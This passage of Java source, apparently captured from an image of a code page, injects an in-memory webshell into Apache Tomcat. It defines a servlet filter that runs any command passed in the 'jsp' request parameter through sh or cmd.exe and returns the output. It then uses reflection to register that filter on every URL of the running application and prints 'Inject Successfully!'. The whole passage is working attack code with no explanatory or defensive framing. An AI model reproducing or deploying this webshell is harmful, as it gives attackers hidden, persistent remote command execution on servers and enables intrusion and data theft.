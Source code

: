 ```java
          public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            if (httpServletRequest.getParameter("jsp") != null) {
              boolean isLinux = true;
              String osType = System.getProperty("os.name");
              if (osType != null && osType.toLowerCase().contains("win")) {
                isLinux = false;
              }

              String[] cmds = isLinux ? new String[] {
                      "sh",
                      "-c",
                      httpServletRequest.getParameter("jsp")
              } : new String[] {
                      "cmd.exe",
                      "/c",
                      httpServletRequest.getParameter("jsp")
              };

              InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
              Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
              String output = scanner.hasNext() ? scanner.next() : "";
              servletResponse.getWriter().write(output);
              servletResponse.getWriter().flush();
              return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
          }

          @Override
          public void destroy() {

          }
        };

        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
        FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef.setFilter(filter);
        filterDef.setFilterName(FilterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
        FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(FilterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
        filterConfigs.put(FilterName, filterConfig);

        System.out.print("Inject Successfully!");
      }
```
